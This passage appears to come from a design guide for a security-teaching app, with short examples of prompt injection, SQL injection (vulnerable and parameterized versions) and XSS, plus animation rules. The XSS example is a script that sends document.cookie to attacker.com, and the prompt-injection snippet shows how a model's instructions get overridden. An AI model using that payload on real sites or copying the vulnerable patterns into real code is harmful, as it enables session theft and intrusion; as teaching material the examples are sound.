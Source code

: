 3. **References**:
   - Research papers
   - Official documentation
   - OWASP guidelines
   - Industry standards

### Example Additions:

**Prompt Injection** (Concept #1):
```python
# Vulnerable implementation
prompt = f"System: You are a helpful assistant. User: {user_input}"

# The model may now ignore system instructions
```

**SQL Injection** (Concept #12):
```python
# Vulnerable login function
query = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"

# Secure version with parameterized queries
query = "SELECT * FROM users WHERE username=? AND password=?"
result = db.execute(query, (username, password))
```

**XSS Attack** (Concept #13):
```javascript
<!-- Attacker submits: -->
<script>
    fetch('https://attacker.com/steal?cookie=' + document.cookie);
</script>
```

---

## 6. Animation Guidelines

### Allowed (Subtle, Professional)
- Color transitions (150ms)
- Tab indicator slide
- Progress bar growth
- Collapsible expand/collapse
- Hover state color changes

### Forbidden (Removed)
- ❌ Bounce effects
- ❌ Shake animations
- ❌ Confetti or celebration effects
- ❌ Pulsing elements
- ❌ Rotating badges
- ❌ Transform scale on hover (reduced from `scale-105` to none on cards)

---